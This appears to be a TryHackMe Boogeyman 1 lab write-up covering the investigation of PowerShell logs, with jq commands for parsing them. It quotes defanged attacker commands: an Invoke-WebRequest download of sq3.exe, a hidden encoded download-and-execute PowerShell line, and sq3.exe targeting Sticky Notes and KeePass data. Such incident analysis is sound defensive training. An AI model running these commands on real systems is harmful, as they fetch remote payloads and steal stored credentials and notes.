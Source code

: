 
## Endpoint Investigation

**PowerShell Artifacts**:  
- Found in `powershell.json` within the Artefacts folder:  
  - Suspicious GitHub URL: `hxxps[://]github[.]com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt[.]ps1`  
    - **Purpose**: References `Invoke-Seatbelt`, a PowerShell tool for system enumeration, possibly used by the attacker.

- Suspicious command:  
  - `iwr hxxp[://]files[.]bpackaging[.]xyz/sq3[.]exe -outfile sq3[.]exe;pwd`  
    - **Purpose**: Uses `Invoke-WebRequest` (`iwr`) to download `sq3.exe` from the malicious domain and saves it as `sq3.exe`. The `pwd` command outputs the current working directory.

**Extracted Domains (Defanged)**:  
- `cdn[.]bpackaging[.]xyz`  
- `files[.]bpackaging[.]xyz`

**Additional Findings**:  
- File path: `C:\Users\j.westcott\Documents\protected_data.kdbx;pwd`  
  - **Purpose**: Indicates a KeePass database file (`protected_data.kdbx`) and the `pwd` command, likely used to verify the current directory.

- Encoded PowerShell command:  
  - `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABiAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAd`  
  - **Purpose**: An encoded PowerShell command, likely executing a downloaded script in a hidden window, similar to the .lnk file’s command.

**Commands for Parsing `powershell.json`**:  
- Note: The TryHackMe Boogeyman 1 room provided the `{}` syntax for `jq` filtering. I selected the specific field names (`path`, `ContextInfo`, `ScriptBlockText`, and `ContextInfo, ScriptBlockText`) to extract relevant data, enabling targeted analysis of file paths, context, and script content.  
- `cat powershell.json | jq '{path}'`  
  - **Purpose**: Extracts the `path` field from `powershell.json` using `jq` to identify file paths in the logs.

- `cat powershell.json | jq '{ContextInfo}'`  
  - **Purpose**: Extracts the `ContextInfo` field, providing contextual details about PowerShell execution (e.g., user or process information).

- `cat powershell.json | jq '{ScriptBlockText}'`  
  - **Purpose**: Extracts the `ScriptBlockText` field, revealing the executed PowerShell script content.

- `cat powershell.json | grep AppData`  
  - **Purpose**: Searches for references to the `AppData` directory, identifying paths like `plum.sqlite`.

- Found: `.\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\;pwd`  
  - **Purpose**: Indicates `sq3.exe` targeted the Microsoft Sticky Notes directory, likely accessing `plum.sqlite`. The `pwd` command confirms the working directory.
